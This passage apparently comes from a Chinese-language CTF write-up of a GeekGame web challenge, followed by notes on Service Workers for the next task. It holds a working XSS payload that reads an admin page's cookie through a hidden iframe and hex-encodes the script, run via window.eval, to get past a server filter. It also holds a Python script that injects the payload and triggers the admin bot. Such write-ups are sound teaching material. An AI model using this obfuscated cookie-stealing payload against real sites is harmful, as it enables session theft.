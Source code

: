 但直接上传这段内容，会被服务器以403拒绝。似乎是通过某种方法过滤了一些脚本内容。不过我们可以将一部分脚本内容转成16进制码，然后用window.eval来执行，这样就能通过了：

```js
document.getElementById('myiframe').onload = function() {
 window.eval('\x76\x61\x72\x20\x69\x66\x72\x61\x6d\x65\x20\x3d\x20\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x67\x65\x74\x45\x6c\x65\x6d\x65\x6e\x74\x42\x79\x49\x64\x28\x27\x6d\x79\x69\x66\x72\x61\x6d\x65\x27\x29\x3b\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x74\x69\x74\x6c\x65\x20\x3d\x20\x69\x66\x72\x61\x6d\x65\x2e\x63\x6f\x6e\x74\x65\x6e\x74\x44\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x3b')
}
```

我也写了个脚本来记录自己的操作：

```python
import requests
from pwn import *

url = 'https://prob99-m63o7gly.geekgame.pku.edu.cn/'

js_code = """var iframe = document.getElementById('myiframe');document.title = iframe.contentDocument.cookie;"""

js_code = ''.join(map(lambda x: '\\x' + hex(ord(x))[2:], js_code))
inject = """<iframe id="myiframe" src="/admin" style="display:none;"></iframe><script>document.getElementById('myiframe').onload = function() {window.eval('%s');}</script>""" % js_code
requests.post(url, data={'name': '1', 'header': '{"Content-Type": "text/html"}', 'body': inject})

r = remote('prob01.geekgame.pku.edu.cn', 10001)
r.recvuntil(b'token:')
r.sendline(b'YOUR_TOKEN_HERE')
print(r.recvuntil(b'Your blog URL: ').decode())
r.sendline((url.replace('https', 'http') + '1/').encode())
try:
    while 1:
        print(r.recv().decode())
except EOFError:
    ...

```

flag{tOtALLY-NO-sECuRItY-In-The-sAMe-oRIgiN}

### 记忆


{% hideBlock 二阶段提示 %}
> 你需要 [注册一个 Service Worker](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers)，而且要注册到 `"/"` 这个 scope 上。
{% endhideBlock %}

这是道本次比赛让我收获比较大的小题。


了解到Service Worker是一种运行在后台的JavaScript脚本，可以实现许多功能，包括“控制网络请求的处理，比如自定义响应等”。

